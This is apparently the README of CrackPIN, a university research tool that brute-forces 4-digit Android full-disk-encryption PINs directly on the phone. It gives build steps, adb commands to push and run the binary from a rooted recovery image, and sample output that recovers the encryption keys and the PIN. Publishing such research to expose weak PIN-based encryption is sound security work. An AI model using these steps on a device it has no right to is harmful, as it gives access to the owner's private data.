 # CrackPIN
##ARM binary to break Android FDE 4-digit PINs


PINs are still the most frequent screen lock in use today. Since long PINs are too
inconvient for most people, people commonly use short PINs of only 4 digits. That is
concerning, because in Android the screen lock PIN necessarily equals the PIN that is
used for disk encryption.

In 2012, Cannon et al. presented details about Android's encryption system
and gave instructions on how to break it with bruteforce attacks against the PIN.
They published their findings in form of a Python script that breaks Android
encryption on an `x86` PC after the `userdata` and `metadata` (crypto footer) partition
have been retrieved.
[See script.](https://github.com/santoku/Santoku-Linux/blob/master/tools/android/android_bruteforce_stdcrypto/bruteforce_stdcrypto.py)

Basically, we re-implemented the Python script in C and cross-compiled it for
ARM so that we can perform bruteforce attacks directly on the phone without
the need to download the user partition first. To this end, we make use of the
`PolarSSL` library for Android, an open source library similar to `OpenSSL` but more light-weight and easier to integrate.

We statically link our PIN cracking program with the PolarSSL library as Android does
not support dynamic linking out-of-the-box.


- Setup your cross-compiling environment and configure the `Makefile`, i.e., 
   change `${NDK}` to an appropriate path.


- Get `PolarSSL` library:

 - Get the source from [http://polarssl.org](http://polarssl.org). Enable `PBKDF2_C` in `include/polarssl/config.h` (disabled by default).
 - Cross-compile it manually for Android/ARM; Alternatively, simply use the pre-compiled `libpolarssl.a`, that is shipped with this package.
 

- Run `make`. The crackpin binary should appear in the `bin` directory.


- Boot your scrambled telephone into a rooted recovery image with `ADB` support,
   e.g., into clockwordmod recovery. Then upload crackpin:

	> adb push crackpin /etc/

- Run crackpin (this may take a while):

	> adb shell /etc/crackpin

- On success you see something like:

		> adb shell /etc/crackpin
			 
		magic number: D0B5B1C4
		major version: 1
		minor version: 0
		footer size: 104
		flags: 0
		key size: 16
		failed decrypts: 0
		
		encdek: 8789f6d998899713a4fb755ff29922d7
		salt: 54f422d3ce6e1f2bc2828963d59e0f1e
		
		...trying 0000
		...trying 0100
		...trying 0200
		...trying 0300
		...trying 0400
		...trying 0500
		...trying 0600
		...trying 0700
		...trying 0800
		...trying 0900
		...trying 1000
		...trying 1100
		...trying 1200
		...trying 1300
		...trying 1400
		...trying 1500
		...trying 1600
		...trying 1700
		...trying 1800
		...trying 1900
		...trying 2000
		...trying 2100
		...trying 2200
		...trying 2300
		
		KEK: bc0eca8b4f30edd0bf0892637b94affb
		IV:  ecfcfbe7a3c0c87c5e9e4a56891a680c
		DEK: 490af890f7d9d3b29155e80a786a509b
		
			    PIN: 2323


##Contact:

Tilo Müller ([tilo.mueller@informatik.uni-erlangen.de](mailto:tilo.mueller@informatik.uni-erlangen.de))

[http://www1.cs.fau.de/frost](http://www1.cs.fau.de/frost)
